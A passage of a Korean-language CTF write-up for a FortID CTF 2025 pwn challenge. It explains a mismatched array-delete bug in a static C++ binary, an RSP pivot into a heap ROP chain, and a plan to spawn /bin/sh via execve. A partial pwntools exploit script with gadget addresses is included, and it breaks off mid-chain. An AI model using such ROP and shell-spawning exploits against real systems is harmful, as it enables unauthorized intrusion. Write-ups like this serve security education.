 데코레이터를 만들고 사용하는 코드입니다. 이때 생성된 데코레이터를 해제하는 과정에서 문제가 발생합니다. 단일 객체임에도 불구하고 배열 형태의 해제 문법을 사용하고 있습니다. `IDA`로 열어보면 이로인해 해제되는 타겟을 객체 배열로 인식하여 각각의 소멸자를 호출하려함을 알 수 있습니다.

<p align="center"><img src="/assets/img/FortID-CTF-2025/chall2_ida1.png"></p>

최종적으로 `_Function_base`에 대한 소멸자가 다음과 같이 호출됩니다.

<p align="center"><img src="/assets/img/FortID-CTF-2025/chall2_ida2.png"></p>

또한 호출 시점에 레지스터들이 다음과 같이 설정되어있다는 사실을 알 수 있습니다.

<p align="center"><img src="/assets/img/FortID-CTF-2025/chall2_gdb.png"></p>

이를 활용해서 공격을 수행해봅시다.

## Exploit

보호 기법은 다음과 같이 무난합니다. PIE가 적용되어있지 않아서 따로 릭 과정은 거치지 않아도 되겠네요. `static` 바이너리니 라이브러리도 필요없습니다.

<p align="center"><img src="/assets/img/FortID-CTF-2025/chall2_mitigation.png"></p>

소멸자에 해당하는 구간에 사용자 입력을 넣을 수 있으며, 전달되는 첫 번째 인자 역시 임의로 조작하는 것이 가능합니다.

주어진 힙 영역에 다음과 페이로드를 다음과 같이 삽입해줍시다.

<p align="center"><img src="/assets/img/FortID-CTF-2025/chall2_payload.png"></p>

공격 흐름은 다음과 같습니다.

- 현재 `RCX`가 담고 있는 힙 주소로 `RSP` 피봇, 이후 `ROP` 체이닝 가능
- `read`로 `/bin/sh`를 적당한 위치에 삽입
- `execve("/bin/sh", NULL, NULL);`

최종 공격 코드는 다음과 같습니다.

```python
from pwn import *

p = remote('0.cloud.chals.io', 26620)

POP_RAX = p64(0x4006df)
POP_RDI = p64(0x400b16)
POP_RDX = p64(0x423032)
POP_RBX = p64(0x482082)

POP_RSI = p64(0x4036de)
SH = p64(0x57fd0c)
SH_BUFF = p64(0x7bd000)
SYSCALL = p64(0x514a87)

payload = b'A'*(512)
payload += p64(0x401841)
payload += p64(0x0) # dummy
payload += p64(0x49a26e)

# read
payload += POP_RAX
payload += p64(0x0)
payload += POP_RDI
payload += p64(0x0)
payload += POP_RSI
payload += SH_BUFF
payload += POP_RDX
payload += p64(0x100)
payload += SYSCALL

payload += POP_RAX
```